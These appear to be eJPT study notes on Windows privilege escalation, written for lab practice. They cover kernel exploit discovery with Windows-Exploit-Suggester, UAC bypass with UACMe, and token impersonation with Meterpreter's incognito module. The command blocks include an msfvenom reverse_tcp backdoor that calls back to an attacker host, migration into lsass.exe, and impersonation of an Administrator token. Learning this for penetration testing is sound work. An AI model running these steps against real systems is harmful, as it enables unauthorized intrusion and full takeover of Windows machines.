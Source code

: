 # 17 Windows Privilege Escalation

# Windows Kernel Exploits

- Kernel has complete contro over every resource and hardware on a system. It acts as a translation layer between hardware and software.
- **Windows NT** is the kernel that comes pre-packaged with all versions of Microsoft Windows.
	- User Mode: Program and services running in user mode have limited access to system resources and functionality.
	- Kernel Mode: Unrestricted access to system resources and functionality with the added functionality of managing devices and system memory.

- Kernel exploits on Windows typically target vulnerabilities in the Windows kernel to execute arbitrary code, enabling the execution of privileged system commands or obtaining a system shell.

- Privilege escalation on Windows systems
	- Identifying kernel vulnerabilities
	- Downloading, compiling and transferring kernel exploits onto the target system

**Tools**

- **Windows-Exploit-Suggester:** Compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user is there are public exploits and Metasploit modules available for the missing bulletins. 
	- https://github.com/AonCyberLabs/Windows-Exploit-Suggester
- **Windows-Kernel-Exploits:** Collection of Windows Kernel exploits sorted by CVE.
	- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135

### Demo

```shell
meterpreter: getsystem (evelevate privileges)
msf6: post(multi/recon/local_exploit_suggester) (enumerate exploit)

meterpreter: shell
C:\: systeminfo
nano systeminfo.txt (copy here)
cd Windows-Exploit-Suggester
	./windows-exploit-suggester.py --update
	./windows-exploit-suggester.py --database <last.xls> --systeminfo systeminfo.txt
Download from Github /Windows-Kernel-Exploits the .exe of vuln
meterpreter: cd Temp\\
	upload <PATH>/exploit.exe
	shell
	dir
	.\exploit.exe
	.\exploit.exe <N>
```

# Bypassing UAC with UACMe

- In order to successfully bypass UAC, we will need to have access to a user account that is a part of the local administrators group in the Windows target system.
- Has various integrity levels ranging from low to high, if the UAC protection level is set below high, Windows programs can be executed with elevated privileges without prompting the user for confirmation
- There are multiple tools and techniques that can be used to bypass UAC, however, the tool and technique used depend on the version of Windows running on the target system.

**Tool**

- https://github.com/hfiref0x/UACME

Robust privilege escalation tool. It can bypass Windows UAC by leveraging various techniques.
Execute malicious payloads with administrative/elevated privileges by abusing the Windows AutoElevate.
More than 60 exploits depending of Windows version.

**Exploit**

```shell
msf6: exploit(windows/http/rejetto_hfs_exec)
meterpreter: pgrep explorer
meterpreter: migrate to <N> (migrate to 64-bit meterpreter session)
meterpreter: sysinfo
meterpreter: getuid
meterpreter: getprivs
meterpreter: shell
meterpreter: net user
meterpreter: net localgroup administrators
meterpreter: getsystem (elevate privilege)

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > 'backdoor.exe'
msf6: exploit(multi/handler)
msf6: set payload windows/meterpreter/reverse_tcp
msf6: run (listen)
	meterpreter: getuid
	meterpreter: getprivs
	meterpreter: ps
	meterpreter: migrate <N> (lsass.exe)
	meterpreter: getuid

meterpreter: upload backdoor.exe
meterpreter: upload <PATH>/Akagi64.exe
meterpreter: shell 
```

# Access Token Impersonation

- Core element of the authentication process on Windows and are created and managed by the Local Security Authority Subsystem Service (LSASS)
- A Windows access token is responsible for identifying and describing the security context of a process or thread running on a system. Simply put, an access token can be thought of as a temporary key akin to a web cookie that provides users with access to a system or network resource without having to provide credential each time a process is started or a system resource is accessed.
- Access tokens are generated by the winlogon.exe process every time a user authenticates successfully and includes the identity and provileges of the user account associated with the thread or process. This token is then attached to the userinit.exe process, after which all child processes started by a user will inherit a copy of the access token from their creator and will run under the privileges of the same access token.
- Windows access token are categorized based on the varying security levels assigned to them.
  These security levels are used to determine the privileges that are assigned to a specific token.
- An access token will tipically be assigned one of the following security levels:
	- Impersonate-level tokens are created as a direct result of a non-interactive login on Windows, typically through specific system services or domain logons.
	- Delegate-level tokens are typically created through an interactive login on Windows, primarily through a traditional login or through remote access protocols such as RDP.
- Impersonate-level tokens can be used to impersonate a token on the local system and not on any external systems that utilize the token.
- Delegate-level tokens pose the largest threat as they can be used to impersonate tokens on any system.

**Windows Privileges**

- The process of impersonating access tokens to elevate privileges on a system will primarily depend on the privileges assigned to the account that has been exploited to gain initial access as well as the impersonation or delegation token available.
- The following are the privileges that are required for a successful impersonation attack:
	- SeAssignPrimaryToken: This allows a user to impersonate tokens.
	- SeCreateToken: This allows a user to create an arbitrary token with administrative privileges.
	- SeImpersonatePrivilege: This allows a user to create a process under the security context of another user typically with administrative privileges.

**The Incognito Module**

- Incognito is a built.in meterpreter module that was originally a standalone application that allows you to impersonate user tokens after successful exploitation.
- We can use the incognito module to display a list of available tokens that we can impersonate.

## Exploit

```shell
msf6: exploit(windows/http/rejetto_hfs_exec)
meterpreter: sysinfo
meterpreter: pgrep explorer
meterpreter: migrate <N> (Access denied)
meterpreter: getuid
meterpreter: getprivs
meterpreter: load incognito
meterpreter: list_tokens -u
meterpreter: impersonate_token "ATTACKDEFENSE\Administrator"
meterpreter: pgrep explorer
meterpreter: migrate <N>
meterpreter: getprivs
```

#eJPT #cybersecurity 